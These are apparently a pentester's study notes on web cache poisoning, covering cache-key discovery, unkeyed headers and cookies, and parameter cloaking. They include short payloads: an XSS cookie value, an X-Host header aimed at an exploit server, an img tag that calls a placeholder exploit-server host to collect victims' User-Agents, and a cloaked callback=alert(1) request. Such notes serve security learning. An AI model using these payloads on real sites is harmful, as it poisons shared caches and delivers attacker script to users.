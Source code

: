 # Web Cache Poisoning

Study up on this in general

Look for `GET`request for the JavaScript file `/resources/js/tracking.js` (or similar) when requests are made to a home page.

Look to see if every page imports the script `/js/geolocate.js` (or similar)

Misc techniques and tips:

- Check if there are headers that suggest caching of the response
- Use Param Miner to guess all possible parameter values
- If the response is being cached, try entering random values in the query parameter to invalidate the cache
- Identify the cache key using headers like Pragma: x-get-cache-key (for Akamai) or Vary
- Query parameters like utm_content (utm_source, utm_medium) may be excluded from the cache key or included in the response
- There may be differences in the interpretation of query parameters between the cache server and backend server, e.g. if the backend server interprets ";" as a separator
- By sending callback=alert(1) in a request like /js/geolocate.js?callback=setCountryCookie&utm_content=1;callback=alert(1), the cache key becomes setCountryCookie
- If a GET request accepts a body and the body is not the cache key, parameters with the same name as the query parameters can be cached along with the query parameters (i.e. fat GET)
- Normalize the cache key, e.g. treating URL-encoded and non-encoded paths as the same.

Useful tip for web cache poisoning is to use the `paraminer` burp exension.

### Web cache poisoning with an unkeyed cookie:

`fehost="-alert(document.cookies)-"`

### Basic Web cache

`X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag.

### Targeted web cache poisoning using an unknown header

`Vary: User-Agent` -> "For example, if the attacker knows that the User-Agent header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected."

`X-Host: exploitserver.net/resources/js/tracking.js`

Steal other users `User-Agents`: If you have post functionality you can use this payload:

`<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`

and final step is to poison the victims user-agents stoled from img tag

### Parameter cloaking

`GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`
